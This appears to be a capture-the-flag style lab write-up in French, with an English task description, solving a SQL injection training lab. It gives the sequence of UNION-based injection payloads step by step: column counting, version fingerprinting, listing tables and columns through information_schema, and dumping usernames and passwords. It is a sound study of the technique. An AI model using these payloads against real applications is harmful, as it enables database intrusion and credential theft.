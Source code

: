 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the
table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

On récupère le nombre de colonnes ajoutant à la fin de la requête :
```
'ORDER BY 1--
'ORDER BY 2--
'ORDER BY 3-- = internal server error
```
Nous avons donc 2 colonnes.

On vérifie la compatibilité des colonnes avec le format string :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les 2 colonnes sont compatibles.

On cherche ensuite sous quel type et quelle version tourne la database :
```
'UNION SELECT NULL,@@version-- = internal server error
'UNION SELECT NULL,version()-- = OK
```
On apprend donc que la database visée est sous PostgreSQL 12.11 : 
`PostgreSQL 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Avec ces informations, on peut ensuite chercher le nom des tables. La documentation de PostgreSQL fournit des noms de colonne
par défaut pour l'information schema : https://www.postgresql.org/docs/12/infoschema-columns.html
tentons d'utiliser **table_name** et **column_name** : 

```
'UNION SELECT table_name,NULL FROM information_schema.tables--
```
Quelques noms de tables interessants font surface :
- pg_user
- users_inhaeu
- pg_database
- user_mappings

On peut essayer de récupérer les colonnes de ces différentes tables :
'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user'--

On y trouve d'autres colonnes que l'on pourrait tenter de récupérer :
- username
- passwd

```
'UNION SELECT passwd,NULL FROM pg_user--
```

On aperçoit un mot de passe, mais caché. surement un piège du lab pour indiquer subtilement qu'on est pas
sur la bonne piste. Après quelques tentatives infructueuses, je suis passé sur la seconde table :

'UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_inhaeu'--

Résultat concluant, on tombe sur deux colonnes :
- username_iqcpbt
- password_avjxlc

On tente de nouveau l'approche effectuée précédemment sur la table pg_user :
```
'UNION SELECT password_avjxlc,username_iqcpbt FROM users_inhaeu--
```

Il s'agit cette fois-ci des bonnes colonnes, la page affiche :
- 9drt170gxf4rfszt99yr
- wiener
- pwahxf3nu0ou3llzqz5w
- carlos
- ******************** (mot de passe)
- administrator

Une fois le mot de passe obtenu, il suffit de se log en administrateur afin de terminer le lab.